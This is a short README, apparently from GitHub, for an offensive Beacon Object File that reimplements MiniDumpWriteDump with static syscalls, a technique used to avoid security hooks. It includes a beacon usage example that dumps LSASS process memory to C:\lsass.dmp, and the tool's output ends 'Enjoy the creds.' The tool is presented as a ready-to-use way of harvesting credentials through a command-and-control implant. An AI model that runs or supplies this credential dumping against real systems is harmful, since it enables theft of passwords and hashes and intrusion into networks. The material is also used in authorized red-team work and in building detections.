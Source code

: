 # MiniDumpWriteDump BOF (64-bit only) 

Custom implementation of DbgHelp's MiniDumpWriteDump function. Uses static syscalls to replace low-level functions like NtReadVirtualMemory. 

Syscalls generated using @jthuraisamy's [SysWhispers](https://github.com/jthuraisamy/SysWhispers) and @Outflanknl's [InlineWhispers](https://github.com/outflanknl/InlineWhispers).

Code is adapted from ReactOS's implementation of MiniDumpWriteDump at [minidump.c](https://doxygen.reactos.org/d8/d5d/minidump_8c_source.html).

## Usage

```
beacon> minidumpwritedump 756 C:\lsass.dmp
[*] Static Syscalls Custom MiniDumpWriteDump BOF (@rookuu_)
[+] host called home, sent: 12165 bytes
[+] received output:
OS Version: 10.0.18362
[+] received output:
Done! Enjoy the creds. (C:\lsass.dmp)
```


